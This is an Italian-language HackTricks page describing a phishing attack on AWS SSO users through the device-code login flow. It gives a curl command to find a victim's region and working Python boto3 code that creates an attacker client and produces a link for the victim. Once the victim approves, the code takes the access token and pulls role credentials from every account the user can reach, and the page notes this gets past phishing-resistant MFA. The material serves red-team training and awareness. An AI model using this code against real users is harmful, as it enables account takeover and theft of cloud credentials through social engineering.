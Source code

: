 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Inizialmente proposto in [**questo post del blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), è possibile inviare un **link** a un utente che utilizza AWS SSO che, se **l'utente accetta**, l'attaccante sarà in grado di ottenere un **token per impersonare l'utente** e accedere a tutti i ruoli a cui l'utente può accedere nel **Identity Center**.

Per eseguire questo attacco, i requisiti sono:

* La vittima deve utilizzare **Identity Center**
* L'attaccante deve conoscere il **sottodominio** utilizzato dalla vittima `<victimsub>.awsapps.com/start`

Solo con le informazioni precedenti, **l'attaccante sarà in grado di inviare un link all'utente** che, se **accettato**, concederà **all'attaccante l'accesso all'account utente AWS**.

### Attacco

1. **Trovare il sottodominio**

Il primo passo dell'attaccante è scoprire il sottodominio che l'azienda vittima sta utilizzando nel loro Identity Center. Questo può essere fatto tramite **OSINT** o **indovinando + BF**, poiché la maggior parte delle aziende utilizzerà il proprio nome o una variazione del proprio nome qui.

Con queste informazioni, è possibile ottenere la regione in cui è stato configurato l'Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genera il link per la vittima e invialo**

Esegui il seguente codice per generare un link di accesso AWS SSO in modo che la vittima possa autenticarsi.\
Per la demo, esegui questo codice in una console Python e non uscire, poiché in seguito avrai bisogno di alcuni oggetti per ottenere il token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Invia il link generato alla vittima utilizzando le tue fantastiche abilità di ingegneria sociale!

3. **Aspetta che la vittima lo accetti**

Se la vittima era **già loggata in AWS** dovrà solo accettare di concedere i permessi, se non lo era, dovrà **accedere e poi accettare di concedere i permessi**.\
Questo è come appare il prompt al giorno d'oggi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Ottieni il token di accesso SSO**

Se la vittima ha accettato il prompt, esegui questo codice per **generare un token SSO impersonando l'utente**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Il token di accesso SSO è **valido per 8h**.

5. **Impersonare l'utente**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing l'MFA "unphishable"

È divertente sapere che il precedente attacco **funziona anche se viene utilizzato un "MFA unphishable" (webAuth)**. Questo perché il **workflow precedente non esce mai dal dominio OAuth utilizzato**. A differenza di altri attacchi di phishing in cui l'utente deve sostituire il dominio di accesso, nel caso il workflow del codice dispositivo è preparato in modo che un **codice sia conosciuto da un dispositivo** e l'utente può accedere anche su una macchina diversa. Se accetta il prompt, il dispositivo, semplicemente **conoscendo il codice iniziale**, sarà in grado di **recuperare le credenziali** per l'utente.

Per ulteriori informazioni su questo [**controlla questo post**](https://mjg59.dreamwidth.org/62175.html).

### Strumenti Automatici

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Riferimenti

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
